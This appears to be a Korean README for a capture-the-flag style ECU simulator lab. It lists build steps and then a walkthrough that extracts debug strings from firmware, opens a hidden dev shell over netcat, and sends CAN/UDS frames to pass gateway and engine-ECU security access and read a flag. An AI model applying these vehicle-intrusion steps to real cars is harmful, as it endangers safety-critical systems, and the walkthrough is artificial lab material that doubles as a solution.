 # ECU Simulator Setup

## 빌드 및 배포

1. 먼저 custom CAN tools를 생성:
```bash
# Python 스크립트들을 실행 가능하게 만들기
chmod +x cansend.py candump.py can_broker.py
```

2. Docker 이미지 빌드:
```bash
./build_and_deploy.sh
```

3. 테스트 환경 실행:
```bash
docker-compose -f docker-compose.test.yml up -d
```

## 사용법

### 1단계: 펌웨어 분석
```bash
# 펌웨어 다운로드 후 문자열 추출
strings infotainment.bin | grep debug
```

### 2단계: 인포테인먼트 접근
```bash
# 인포테인먼트 시스템 접근
nc localhost 12340
> debug_enable_dev_mode
> dev_shell
```

### 3단계: CAN 네트워크 분석  
```bash
# 컨테이너 내부에서
candump vcan0 &
cansend vcan0 123#1234567890ABCDEF
```

### 4단계: 게이트웨이 인증
```bash
# 시드-키 인증
cansend vcan0 123#DEADBEEF12345678
```

### 5단계: 엔진 ECU 접근
```bash
# UDS 진단 세션 시작
cansend vcan0 7E0#1003

# 보안 접근
cansend vcan0 7E0#2701
cansend vcan0 7E0#2702CAFE

# 플래그 읽기
cansend vcan0 7E0#22F1A0
```
